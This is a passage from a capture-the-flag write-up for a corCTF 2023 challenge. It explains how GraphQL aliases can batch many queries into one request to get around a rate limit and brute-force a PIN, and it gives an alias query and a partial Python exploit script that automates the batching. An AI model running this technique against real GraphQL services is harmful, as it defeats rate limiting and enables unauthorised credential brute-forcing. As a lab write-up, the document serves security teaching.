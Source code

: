 That being said, POST endpoint `/` implemented a rate limit, with 10 requests within 60 seconds.

Luckily, we can easily bypass that!

## Exploitation

In GraphQL, there's one thing called "***Aliases***", which allows multiple queries being sent. 

Armed with above information, we can abuse the aliases to bypass rate limiting!

> Note: For more information, you can read this PortSwigger's Web Security Academy GraphQL lab: [https://portswigger.net/web-security/graphql#bypassing-rate-limiting-using-aliases](https://portswigger.net/web-security/graphql#bypassing-rate-limiting-using-aliases).

**To do so, we can send the following query using aliases:**
```
{
  flag0:flag(pin:0),
  flag1:flag(pin:1),
  flag2:flag(pin:2),
  flag3:flag(pin:3),
  flag4:flag(pin:4),
  flag5:flag(pin:5)
}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/corCTF-2023/images/Pasted%20image%2020230731130738.png)

As you can see, we can send multiple queries at the same time!

**Let's write a Python (overkilled) script to automate that process!**
```python
#!/usr/bin/env python3
import requests
import json

class Exploit:
    def __init__(self, url):
        self.url = url

    @staticmethod
    def getQueryWithAliases(startPinNumber, endPinNumber):
        queryWithAliases = '{'
        for pinNumber in range(startPinNumber, endPinNumber + 1):
            if pinNumber == endPinNumber:
                # "," in the last query is not needed
                queryWithAliases += f'flag{pinNumber}:flag(pin:{pinNumber})'
                break
            queryWithAliases += f'flag{pinNumber}:flag(pin:{pinNumber}),'
        queryWithAliases += '}'

        return queryWithAliases

    def bypassRateLimit(self, startPinNumber, endPinNumber):
        queryWithAliases = Exploit.getQueryWithAliases(startPinNumber, endPinNumber)
        response = requests.post(self.url, json=queryWithAliases)
        if response.status_code != 200:
            print(f'\n[-] Query failed...')
            exit()
        if 'no u' in response.text:
            print(f'\n[-] Ahh... Rate limited... Please wait 60 seconds :(')
            exit()

        jsonResponse = json.loads(response.text)
        for key, value in jsonResponse['data'].items():
            isCorrectPin = True if value != 'Wrong!' else False
```